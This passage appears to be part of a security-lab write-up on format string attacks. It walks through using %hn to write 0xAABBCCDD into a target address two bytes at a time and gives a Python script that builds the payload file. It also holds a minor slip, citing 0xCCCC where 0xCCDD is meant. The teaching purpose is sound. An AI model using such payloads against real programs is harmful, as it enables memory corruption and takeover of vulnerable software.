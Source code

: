 ##### Using %hn

While %n treats the argument provided as a 4-byte integer, %hn treats the argument as a 2-byte integer, overwriting the least significant bytes of the argument. We are going to place `0xAABBCCDD` into memory address `0x080e5068` two bytes at a time.

Our program is a 32-bit program so our address is a 4-byte address. Our machine is little-endian, so we break `0xAABBCCDD` into two parts with two bytes each.
- 0x080e5068 => 0xCCDD
- 0x080e506a => 0xAABB

The values written are cumulative, so when constructing our string, we have to start with the addresses that will store lower values.

For this task, I need to determine the total number of characters I would need to print for each precision modifier.
- 0xAABB = 43707
- 0xCCDD = 52445
- The offset is 64 and will contain multiple format specifiers:
  - we need one for the %hn% format specifier for the first address
  - we need one for the %x modulo precision modifier for the first address
  - we need 64 - 2 for the %x whole number precision modifier for the first address
- The string will start with the address that will contain a lower value, be appended by 4 bytes of random data to account for the %x specifier that will be used for the second address, and finally the address that will contain a higher value. This is a total of 12 bytes.
- The first address will store a lower value, which is 0xAABB (43707). The first 12 bytes are where I would store the target variable's addresses.
  - 43707 - 12 = 43695
- The whole number %x precision modifier for the first address is:
  - 43695 // 62 = 704
- The modulo number %x precision modifier for the first address is:
  - 43695 % 62 = 47
- The second address will store a higher value, which is 0xCCDD (52445). To determine the number of %x precision modifiers to use, we would subtract 0xAABB from 0xCCCC:
  - 0xCCDD - 0xAABB = 52445 - 43707 = 8738

```python
#!/usr/bin/python3
import sys

# Start input with the memory address that will store a lower value
content = (0x080e506a).to_bytes(4,byteorder='little')

# Append 4-bytes to account for writing to the second memory address
content += ("@@@@").encode('latin-1')

# Append the memory address that will store a higher value
content += (0x080e5068).to_bytes(4,byteorder='little')

# Append format specifiers to prevent the program from crashing, access 0x080e506a and overwrite it's content
content += ("%.704x" * 62).encode('latin-1')
content += ("%.47x%hn").encode('latin-1')

# Append format specifiers to prevent the program from crashing, access 0x080e5068 and overwrite it's content
content += ("%.8738x%hn").encode('latin-1')

# Append a newline
content += ("\n").encode('latin-1')


# Write the content to badfile
with open('badfile', 'wb') as f:
  print(f"writing {len(content)} bytes to badfile...")
  f.write(content)
```